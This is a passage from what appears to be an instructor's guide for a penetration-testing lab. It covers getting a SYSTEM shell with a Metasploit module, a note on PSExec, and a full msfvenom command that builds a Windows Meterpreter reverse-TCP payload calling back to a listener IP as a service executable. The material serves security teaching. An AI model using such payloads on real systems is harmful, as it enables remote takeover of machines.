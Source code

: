      ![A screenshot depicts the options set correctly.](Images/msfsettings.PNG)

6. Run the module, and you should get a shell back as SYSTEM.

**Note:** If students ask what PSExec is, we will explore it more on Day 3. For now, they just need to know that PSExec is a way of remotely administrating Windows machines. There is also a Metasploit module for it.

7. In a new terminal tab or window, generate a Meterpreter payload using `msfvenom` with the following command:

     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe-service > service.exe`

     ![A screenshot depicts the results of the command.](Images/msfvenomservice.PNG)
